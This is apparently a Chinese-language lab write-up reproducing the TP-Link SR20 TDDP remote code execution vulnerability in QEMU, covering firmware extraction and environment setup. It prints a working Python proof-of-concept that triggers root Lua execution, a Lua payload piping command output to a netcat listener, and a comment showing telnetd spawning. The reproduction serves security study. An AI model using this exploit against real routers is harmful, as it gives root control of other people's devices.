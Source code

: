 ```yaml
---
title: TP-Link SR20远程代码执行漏洞
data:
tags: [IoT,路由器]
categories: IoT
---
```


## 0x00 缘起

IoT设备，固件小，功能单一，相对操作系统上一些成熟应用程序来说漏洞比较少但是却更容易利用；嵌入式linux环境下的漏洞挖掘类似于对linux的程序做模糊测试，甚至有点类似于CTF中的linux pwn，所以对新人还是相对来说比较友好的。为了拓展自己的学习领域，最终还是踏足了IoT这一块。这边记录下复现这个路由器的代码执行漏洞的过程，熟悉下相关工具&环境的使用和配置。

## 0x01 漏洞原理

```
此远程代码执行漏洞允许用户在设备上以 root 权限执行任意命令，该漏洞存在于 TP-Link 设备调试协议(TP-Link Device Debug Protocol 英文简称 TDDP) 中，TDDP 是 TP-Link 申请了专利的调试协议，基于 UDP 运行在 1040 端口
TP-Link SR20 设备运行了 V1 版本的 TDDP 协议，V1 版本无需认证，只需往 SR20 设备的 UDP 1040 端口发送数据，且数据的第二字节为 0x31 时，SR20 设备会连接发送该请求设备的 TFTP 服务下载相应的文件并使用 LUA 解释器以 root 权限来执行，这就导致存在远程代码执行漏洞
```

## 0x02 工具准备

- 源码编译qemu，直接apt的话可能安装的不是最新版本
- 源码编译binwalk，直接apt的话可能 会有依赖问题

## 0x03 固件提取

这边贴一下[官网的固件下载页](<https://www.tp-link.com/us/support/download/sr20/#Firmware>)，vuln的固件可以去上面找。tplink的固件留有历史版本还是很良心的，之前分析vivotek摄像头rce漏洞的时候由于官网并没有放出历史版本而导致一直无法对patch的固件进行利用，就很坑。

拿到固件后binwalk看一下包文件布局

![](./binwalk.png)

binwalk成功识别出了固件中的文件系统，确认是固件文件后再次binwalk -Me提取出固件中的Squashfs filesystem。

![](./binwalk2.png)

qemu来运行程序

![](./run1.png)

直接qemu-arm是不行的，一些依赖库会找不到，需要指定当前目录为根，加入到path中;这边可以chroot，也可以直接用qemu的-L选项。

发现这种方式运行tddp并不能触发漏洞，这边选择搭建完整的arm qemu的虚拟环境。

##0x04 搭建环境

从debian官网下载qemu的arm debian系统的文件：

- debian_wheezy_armhf_standard.qcow2
- initrd.img-3.2.0-4-vexpress
- vmlinuz-3.2.0-4-vexpress

之后把三个文件放在一个目录下执行

```
$ sudo tunctl -t tap0 -u `whoami`  # 为了与 QEMU 虚拟机通信，添加一个虚拟网卡
$ sudo ifconfig tap0 10.10.10.1/24 # 为添加的虚拟网卡配置 IP 地址
$ qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2 console=ttyAMA0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic
```



![](./虚拟机1.png)

![](./虚拟机2.png)

配置网卡ip

`ifconfig eth0 10.10.10.2/24`

![](./网络2.png)

![](./网络1.png)

发现虚拟机可以与宿主机的虚拟网卡通信了。

现在需要把固件系统传到qemu的arm debian虚拟机中，这边用python的httpserver就好了。

`python -m SimpleHttpServer`

qemu虚拟机上执行`wget http://10.10.10.1:8000/squashfs-root.tar.bz2`获取宿主机文件。

![](./文件1.png)

传好以后需要将当前目录设定为根目录，否则的话有些库会从debian系统的lib目录下去寻找。

```
mount -o bind /dev ./squashfs-root/dev/
mount -t proc /proc/ ./squashfs-root/proc/
chroot squashfs-root sh # 切换根目录后执行新目录结构下的 sh shell
```

![](./配置1.png)

之后在宿主机搭建tftp服务

` sudo apt install atftpd`

![](./服务1.png)

到这边漏洞环境搭建完毕。



## 0x05 漏洞复现

在atftp的根目录/tftpboot写下payload，内容为

```
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```

- QEMU 虚拟机中启动 tddp 程序
- 宿主机使用 NC 监听端口
- 执行 POC，获取命令执行结果



```
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```



`nc -lvnp 1337`

`python3 poc.py 10.10.10.2 /payload`

![](./成功.png)






